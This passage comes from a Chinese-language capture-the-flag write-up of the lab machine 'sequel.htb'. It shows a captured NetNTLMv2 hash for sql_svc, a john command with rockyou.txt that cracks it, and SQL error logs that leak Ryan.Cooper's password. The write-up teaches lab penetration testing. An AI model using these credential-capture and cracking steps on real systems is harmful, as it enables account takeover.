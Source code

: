 ![](https://pic.l1nyz-tel.cc/20230602114409.png)

获取到 hash

    [*] Incoming connection (10.10.11.202,49725)
    [*] AUTHENTICATE_MESSAGE (sequel\sql_svc,DC)
    [*] User DC\sql_svc authenticated successfully
    [*] sql_svc::sequel:aaaaaaaaaaaaaaaa:aa5fd28596e6ec4738bd3a288175b434:010100000000000080c8db700495d9012cd17e2add5e3d42000000000100100050004e004f00550049004800430056000300100050004e004f0055004900480043005600020010005400430050004f004a006c006e004800040010005400430050004f004a006c006e0048000700080080c8db700495d9010600040002000000080030003000000000000000000000000030000068e3392ffc49becab6e6f31eee772cb20dda3603d672d62d4613ec90cd77226e0a0010000000000000000000000000000000000009001e0063006900660073002f00310030002e00310030002e00310034002e0033000000000000000000
    [*] Closing down connection (10.10.11.202,49725)
    [*] Remaining connections []

john 结合 rockyou.txt 爆破

    john hash -w=/usr/share/wordlists/rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    REGGIE1234ronnie (sql_svc)
    1g 0:00:00:03 DONE (2023-06-02 11:46) 0.2666g/s 2854Kp/s 2854Kc/s 2854KC/s RENZOJAVIER..RBDesloMEJOR
    Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
    Session completed.

![](https://pic.l1nyz-tel.cc/20230602114833.png)

# User.txt

登陆上去的 sql_svc 是没有 user.txt

此时查看用户列表，里面还有 **Ryan.Cooper**

![](https://pic.l1nyz-tel.cc/20230602115034.png)

## Logs 文件

读取敏感的 SQL 文件

![](https://pic.l1nyz-tel.cc/20230602115414.png)

从中找到 Ryan.Cooper/NuclearMosquito3 （明明里面 logs 是两个 user，居然对应的一个账号一个密码

    2022-11-18 13:43:07.44 Logon       Error: 18456, Severity: 14, State: 8.
    2022-11-18 13:43:07.44 Logon       Logon failed for user 'sequel.htb\Ryan.Cooper'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
    2022-11-18 13:43:07.48 Logon       Error: 18456, Severity: 14, State: 8.
    2022-11-18 13:43:07.48 Logon       Logon failed for user 'NuclearMosquito3'. Reason: Password did not match that for the login provided. [CLIENT: 127.0.0.1]
